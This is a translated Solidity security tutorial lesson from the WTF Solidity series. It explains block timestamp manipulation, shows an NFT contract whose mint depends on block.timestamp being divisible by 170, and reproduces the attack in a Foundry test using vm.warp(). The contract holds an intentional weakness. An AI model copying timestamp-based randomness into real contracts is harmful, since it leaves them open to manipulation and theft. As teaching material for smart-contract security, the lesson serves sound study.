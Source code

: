 ```yaml
---
title: S14. Block Timestamp Manipulation
tags:
  - solidity
  - security
  - timestamp
---
```


# WTF Solidity S14. Block Timestamp Manipulation

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy\_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

---

In this lesson, we will introduce the block timestamp manipulation attack on smart contracts and reproduce it using Foundry. Before the merge, Ethereum miners can manipulate the block timestamp. If the pseudo-random number of the lottery contract depends on the block timestamp, it may be attacked.

## Block Timestamp

Block timestamp is a `uint64` value contained in the Ethereum block header, which represents the UTC timestamp (in seconds) when the block was created. Before the merge, Ethereum adjusts the block difficulty according to the computing power, so the block time is not fixed, and an average of 14.5s per block. Miners can manipulate the block timestamp; after the merge, it is changed to a fixed 12s per block, and the validator cannot manipulate the block timestamp.

In Solidity, developers can get the current block timestamp through the global variable `block.timestamp`, which is of type `uint256`.

## Vulnerable Contract Example

This example is modified from the contract in [WTF Solidity S07. Bad Randomness](https://github.com/AmazingAng/WTF-Solidity/tree/main/32_Faucet). We changed the condition of the `mint()` minting function: it can only be successfully minted when the block timestamp can be divided by 170:

```solidity
contract TimeManipulation is ERC721 {
    uint256 totalSupply;

    // Constructor: Initialize the name and symbol of the NFT collection
    constructor() ERC721("", ""){}

    // Mint function: Only mint when the block timestamp is divisible by 170
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Reproduce on Foundry

Attackers only need to manipulate the block timestamp and set it to a number that can be divided by 170, and they can successfully mint NFTs. We chose Foundry to reproduce this attack because it provides a cheat code to modify the block timestamp. If you are not familiar with Foundry/cheatcode, you can read the [Foundry tutorial](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md) and [Foundry Book](https://book.getfoundry.sh/forge/cheatcodes).

1. Create a `TimeManipulation` contract variable `nft`.
2. Create a wallet address `alice`.
3. Use the cheatcode `vm.warp()` to change the block timestamp to 169, which cannot be divided by 170, and the minting fails.
4. Use the cheatcode `vm.warp()` to change the block timestamp to 17000, which can be divided by 170, and the minting succeeds.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.21;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // Computes address for a given private key
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("Condition 1: block.timestamp % 170 != 0");
        // Set block.timestamp to 169
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // Sets all subsequent calls' msg.sender to be the input address
        // until `stopPrank` is called
        vm.startPrank(alice);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));

        // Set block.timestamp to 17000
        console.log("Condition 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

After installing Foundry, start a new project and install the openzeppelin library by entering the following command on the command line:

```shell
forge init TimeMnipulation
cd TimeMnipulation
forge install Openzeppelin/openzeppelin-contracts
```

Copy the code of this lesson to the `src` and `test` directories respectively, and then start the test case with the following command:

```shell
forge test -vv --match-test testMint
```

The test result is as follows:

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  Condition 1: block.timestamp % 170 != 0
  block.timestamp: 169
  alice balance before mint: 0
  alice balance after mint: 0
  Condition 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  alice balance before mint: 0
  alice balance after mint: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

We can see that when we modify `block.timestamp` to 17000, the minting is successful.

## Summary

In this lesson, we introduced the block timestamp manipulation attack on smart contracts and reproduced it using Foundry. Before the merge, Ethereum miners can manipulate the block timestamp. If the pseudo-random number of the lottery contract depends on the block timestamp, it may be attacked. After the merge, Ethereum changed to a fixed 12s per block, and the validator cannot manipulate the block timestamp. Therefore, this type of attack will not occur on Ethereum, but it may still be encountered on other public chains.
